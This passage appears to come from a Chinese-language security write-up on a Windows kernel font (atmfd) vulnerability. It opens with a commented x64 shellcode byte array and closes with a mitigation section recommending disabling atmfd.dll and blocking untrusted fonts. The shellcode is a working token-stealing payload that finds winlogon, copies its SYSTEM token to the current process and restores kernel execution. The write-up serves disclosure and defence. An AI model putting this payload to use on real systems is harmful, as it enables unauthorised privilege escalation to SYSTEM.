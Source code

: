 ```
09      '\x49', '\x81', '\xE9', '\x38', '\x02', '\x00', '\x00',                                  // sub r9, 0x238 => _KPROCESS
10      '\x41', '\x81', '\xB9', '\x38', '\x04', '\x00', '\x00', '\x77', '\x69', '\x6E', '\x6C',  // cmp [r9+0x438], 0x6c6e6977 does ImageName begin with 'winl' (winlogon)
11      '\x75', '\xe5',                                                                          // jnz $a no? then keep searching!
12      '\x4D', '\x8B', '\xA1', '\xE0', '\x02', '\x00', '\x00',                                  // mov r12, [r9+0x2e0] get pid
13      '\x48', '\xC7', '\xC0', '\x00', '\x10', '\x00', '\x42',                                  // mov rax, 0x42001000
14      '\x4C', '\x89', '\x20',                                                                  // mov [rax], r12 save pid for use later
15      '\x4D', '\x8B', '\x89', '\x48', '\x03', '\x00', '\x00',                                  // mov r9, [r9+0x348] get token
16                 '\x49', '\x83', '\xE1', '\xF0',                                                                                                                                         // and r9, 0xfffffffffffffff0 get SYSTEM token's address
17                 '\x49', '\x83', '\x41', '\xD0', '\x0A',                                                                                                                  // add [r9-0x30], 0x10 increment SYSTEM token's reference count by 0x10
18      '\x4D', '\x89', '\x8A', '\x48', '\x03', '\x00', '\x00',                                  // mov [r10+0x348], r9 replace our token with system token
19      '\x41', '\x5A',                                                                          // pop r10 restore regs
20      '\x41', '\x59',                                                                          // pop r9
21      '\x41', '\x53',                                                                          // push r11, pointer near to original stack
22      '\x5C',                                                                                  // pop rsp
23      '\x48', '\x81', '\xC4', '\x68', '\x01', '\x00', '\x00',                                  // add rsp, 0x168, restore original kernel rsp
24      '\x4C', '\x89', '\x3C', '\x24',                                                          // mov [rsp], r15, restore original return address
25      '\xFF', '\x24', '\x25', '\x70', '\x50', '\x00', '\x42',                                  // jmp [0x42005070], continue on to delete the object CHwndTargetProp::Delete(void)
26      0
27  };

```

0x05 漏洞缓解
=====

近期atmfd字体漏洞泛滥，建议禁用atmfd.dll （直接将其改名即可）。对于Windows 10用户，可以使用缓和策略阻止非信任字体加载，这个功能在今年1月我们介绍过（`http://blogs.360.cn/blog/windows10_font_security_mitigations/`），微软5月将其文档化：`https://msdn.microsoft.com/en-us/library/dn985836%28v=vs.85%29.aspx`